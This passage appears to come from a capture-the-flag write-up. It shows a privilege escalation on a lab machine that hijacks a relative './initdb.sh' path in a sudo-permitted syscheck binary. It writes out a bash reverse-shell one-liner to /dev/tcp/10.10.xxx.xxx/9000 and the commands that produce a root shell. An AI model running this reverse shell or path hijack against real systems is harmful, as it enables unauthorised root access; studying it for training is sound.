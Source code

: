 There is a vulnerability in this code: in the execution of the `./initdb.sh` script the path is not fully defined. This means we can create our own script in a directory with write permissions (for example, our home directory) then run `sudo /usr/bin/syscheck` from there. This will make the script to be run as root.<br>
<br>
Create a script in the home directory `/home/dvir/initdb.sh` and add a reverse shell in the code.
```markdown
> echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.xxx.xxx/9000 0>&1"' >> /home/dvir/initdb.sh
```
Update script permissions.
```markdown
> chmod +x initdb.sh
```
And run as root, from the directory `/home/dvir`
```markdown
> sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  1.86, 1.23, 0.55
Database service is not running. Starting it...
```
A reverse shell is received on port 9000.

![Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/2fdc0ba7-322f-41cf-a4af-592fe4d503a1)

You are root.

